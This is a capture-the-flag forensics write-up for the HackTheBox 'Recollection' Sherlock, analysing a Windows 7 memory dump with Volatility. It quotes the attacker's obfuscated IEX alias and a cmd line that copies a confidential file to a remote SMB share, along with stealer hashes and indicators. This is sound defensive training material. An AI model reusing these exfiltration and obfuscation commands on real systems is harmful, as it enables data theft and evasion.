

# [HackTheBox Sherlocks - Recollection](https://app.hackthebox.com/sherlocks/Recollection)
Created: 20/05/2024 19:51
Last Updated: 20/05/2024 21:49
* * *

**Scenario:**
A junior member of our security team has been performing research and testing on what we believe to be an old and insecure operating system. We believe it may have been compromised & have managed to retrieve a memory dump of the asset. We want to confirm what actions were carried out by the attacker and if any other assets in our environment might be affected. Please answer the questions below.

* * *
>Task 1: What is the Operating System of the machine?


We got a single binary file which couldn't be opened with FTKImager or Autopsy (I tried) so I tried using `vol.py -f recollection.bin imageinfo` which should be the legitimate way to solve it cuz this binary file is memory file

And result from imageinfo plugin tell us its Windows 7 memory file
```
Windows 7
```

>Task 2: When was the memory dump created?
```
2022-12-19 16:07:30
```

>Task 3: After the attacker gained access to the machine, the attacker copied an obfuscated PowerShell command to the clipboard. What was the command?


We can use clipboard plugin for this `vol.py -f recollection.bin --profile=Win7SP1x64 clipboard` which you can see that suspicious data that appeared at the top

I used `vol.py -f recollection.bin --profile=Win7SP1x64 cmdscan` to find all command lines it could find 

which it returns these command history for us, as you can see that an attacker got accessed to cmd then paste powershell command (successfully pasted which showed in powershell history)
```
(gv '*MDR*').naMe[3,11,2]-joIN''
```

>Task 4: The attacker copied the obfuscated command to use it as an alias for a PowerShell cmdlet. What is the cmdlet name?


I copied content of it then ran in Powershell which result shows that its IEX ([Invoke-Expression](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.4)) which will run strings after it as command
```
Invoke-Expression
```

>Task 5: A CMD command was executed to attempt to exfiltrate a file. What is the full command line?


On powershell process history, you can see that an attacker tried to display content of Confidential file then pipe to other file on share folder
```
type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt
```

>Task 6: Following the above command, now tell us if the file was exfiltrated successfully?


`vol.py -f recollection.bin --profile=Win7SP1x64 consoles`, consoles plugin is used for this one which is the better version of cmdscan which as you can see that it also displayed result of those commands

And we can see that network path is not found which mean its not success
```
No
```

>Task 7: The attacker tried to create a readme file. What was the full path of the file?


Copy base64 string and throw it to your base64 decoder

Look like an attacker tried to make everyone know that this system was hacked
```
C:\Users\Public\Office\readme.txt
```

>Task 8: What was the Host Name of the machine?


An attacker also used `net users` command which help us with this task and next task
```
USER-PC
```

>Task 9: How many user accounts were in the machine?
```
3
```

>Task 10: In the "\Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge" folder there were some sub-folders where there was a file named passwords.txt. What was the full file location/path?


We can use filescan plugin with grep to find for this file specifically (`vol.py -f recollection.bin --profile=Win7SP1x64 filescan | grep "passwords.txt"`) then we have full path of this file
```
\Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge\User Data\ZxcvbnData\3.0.0.0\passwords.txt
```

>Task 11: A malicious executable file was executed using command. The executable EXE file's name was the hash value of itself. What was the hash value?


Back to result from consoles plugin, we can see that this exe file was executed
```
b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1
```

>Task 12: Following the previous question, what is the Imphash of the malicous file you found above?


Search file hash we got from previous task to VirusTotal, its a Loki stealer

For implash, go to Details
```
d3b592cd9481e4f053b5362e22d61595
```

>Task 13: Following the previous question, tell us the date in UTC format when the malicious file was created?


We still in Details tab on VirusTotal, scroll down a bit then you will see History section
```
2022-06-22 11:49:04
```

>Task 14: What was the local IP address of the machine?


We can use netscan plugin for this one (`vol.py -f recollection.bin --profile=Win7SP1x64 netscan`)
And we can see it used the same Local Address (not loopback) to communicate
```
192.168.0.104
```

>Task 15: There were multiple PowerShell processes, where one process was a child process. Which process was its parent process?


Its pstree plugin time! (`vol.py -f recollection.bin --profile=Win7SP1x64 pstree`)

As we already guessed from Task 3, it was spawned under cmd
```
cmd.exe
```

>Task 16: Attacker might have used an email address to login a social media. Can you tell us the email address?

Earlier We found that an attacker tried to create a text file to tell other user that this system was hacked and the word that we could use to find is "mafia" 

I used strings to do this since i didn't know where to look for (`strings recollection.bin | grep "mafia"`) and it still landed us with an answer
```
mafia_code1337@gmail.com
```

>Task 17: Using MS Edge browser, the victim searched about a SIEM solution. What is the SIEM solution's name?

We saw wazuh's msi file in user's Download directory so it should be this one

But we can dump MS Edge history file to investigate too

First I used `vol.py -f recollection.bin --profile=Win7SP1x64 filescan | grep "History"` to find location of History file and its address inside this binary


Then use `mkdir Edge; vol.py -f recollection.bin --profile=Win7SP1x64 dumpfiles -Q 0x000000011e0d16f0 --dump-dir ./Edge` to create an output folder and dump that file using

It does not look like a legitimate History file but if you used "file" with it then we can confirm that we got the right one

Opened it with DB Browser for SQLite and pick "urls" table, you can see that Wazuh is the only SIEM that appeared on this history
```
Wazuh
```

>Task 18: The victim user downloaded an exe file. The file's name was mimicking a legitimate binary from Microsoft with a typo (i.e. legitimate binary is powershell.exe and attacker named a malware as powershall.exe). Tell us the file name with the file extension?

I didn't find other file were downloaded using MS Edge so I went back to volatility 

Here is the result from consoles plugin, as you can see that there that there is `csrsss.exe` which totally look out of place here since you won't see a legitimate version of this file on anywhere beside `C:\Windows\System32`
```
csrsss.exe
```


* * *
